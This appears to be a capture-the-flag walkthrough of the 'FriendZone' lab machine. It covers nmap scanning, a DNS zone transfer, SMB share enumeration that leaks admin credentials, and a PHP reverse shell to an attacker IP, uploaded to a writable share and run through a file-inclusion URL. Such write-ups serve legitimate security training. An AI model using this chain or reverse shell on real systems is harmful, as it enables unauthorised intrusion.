 
**IP**
```
10.10.10.123
```

### NMAP

```
nmap -Pn -sC -sV 10.10.10.123
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-21 08:56 EST
Nmap scan report for 10.10.10.123
Host is up (0.025s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:68:24:bc:97:1f:1e:54:a5:80:45:e7:4c:d9:aa:a0 (RSA)
|   256 e5:44:01:46:ee:7a:bb:7c:e9:1a:cb:14:99:9e:2b:8e (ECDSA)
|_  256 00:4e:1a:4f:33:e8:a0:de:86:a6:e4:2a:5f:84:61:2b (ED25519)
53/tcp  open  domain      ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Friend Zone Escape software
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  ssl/http    Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 404 Not Found
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
| Not valid before: 2018-10-05T21:02:30
|_Not valid after:  2018-11-04T21:02:30
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Hosts: FRIENDZONE, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: -40m00s, deviation: 1h09m16s, median: -1s
| smb2-time: 
|   date: 2024-01-21T13:56:35
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: friendzone
|   NetBIOS computer name: FRIENDZONE\x00
|   Domain name: \x00
|   FQDN: friendzone
|_  System time: 2024-01-21T15:56:35+02:00
|_nbstat: NetBIOS name: FRIENDZONE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.21 seconds
```


### HTTP

After configuring the DNS settings in /etc/hosts, nav to the page on port 80

![[Pasted image 20240121090401.png]]

Hint: Zone transfer with dig

### DIG - Zone Transfer

```
dig AXFR friendzone.red @10.10.10.123
```
```
; <<>> DiG 9.19.17-2~kali1-Kali <<>> AXFR friendzone.red @10.10.10.123
;; global options: +cmd
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
friendzone.red.         604800  IN      AAAA    ::1
friendzone.red.         604800  IN      NS      localhost.
friendzone.red.         604800  IN      A       127.0.0.1
administrator1.friendzone.red. 604800 IN A      127.0.0.1
hr.friendzone.red.      604800  IN      A       127.0.0.1
uploads.friendzone.red. 604800  IN      A       127.0.0.1
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 36 msec
;; SERVER: 10.10.10.123#53(10.10.10.123) (TCP)
;; WHEN: Sun Jan 21 10:24:35 EST 2024
;; XFR size: 8 records (messages 1, bytes 289)

```

New domains. Put these in the /etc/hosts file:
```
hr.friendzone.red
```
```
uploads.friendzone.red
```
```
administrator1.friendzone.red
```

### SMB Shares

**smbclinet**
```
 smbclient -N -L //10.10.10.123

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        Files           Disk      FriendZone Samba Server Files /etc/Files
        general         Disk      FriendZone Samba Server Files
        Development     Disk      FriendZone Samba Server Files
        IPC$            IPC       IPC Service (FriendZone server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            FRIENDZONE
```

I'll go down the list of shares and recursively look through each to see what's there via smbap. Starting with the `Files` share:

**Files**
```
smbmap -H 10.10.10.123 -r Files
```

![[Pasted image 20240121115005.png]]

**general**

![[Pasted image 20240121115438.png]]

Download the creds.txt file

==**creds.txt**==
```
smbmap -H 10.10.10.123 --download "general/creds.txt" 

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)                                
[+] Starting download: general\creds.txt (57 bytes)             
[+] File output to: /home/dan/10.10.10.123-general_creds.txt

```

AND WE FOUND THE ADMIN CREDS!!!
```
admin
```
```
WORKWORKHhallelujah@#
```

### Logging In

Go to https://administrator1.friendzone.red and use the above credentials 

![[Pasted image 20240122150519.png]]

**dashboard.php**

![[Pasted image 20240122151011.png]]

![[Pasted image 20240122154506.png]]

Reading the message, we get the pagename `timestamp`

**timestamp**

![[Pasted image 20240122155040.png]]

### Reverse Shell

- Earlier we came across a share called `Development` that had READ/WRITE access.
- Create a reverse shell by logging in with the creds found in the `general` share

**PHP Reverse Shell**
```bash
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.46/9999 0>&1'");?>
```


**Upload the r_shell file**

```
smbclient \\\\10.10.10.123\\Development -U admin

Password for [WORKGROUP\admin]:
Try "help" to get a list of possible commands.
smb: \> put r_shell
putting file r_shell as \r_shell (1.0 kb/s) (average 1.0 kb/s)
smb: \> 
```

**Execute Reverse Shell**

```
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/r_shell
```




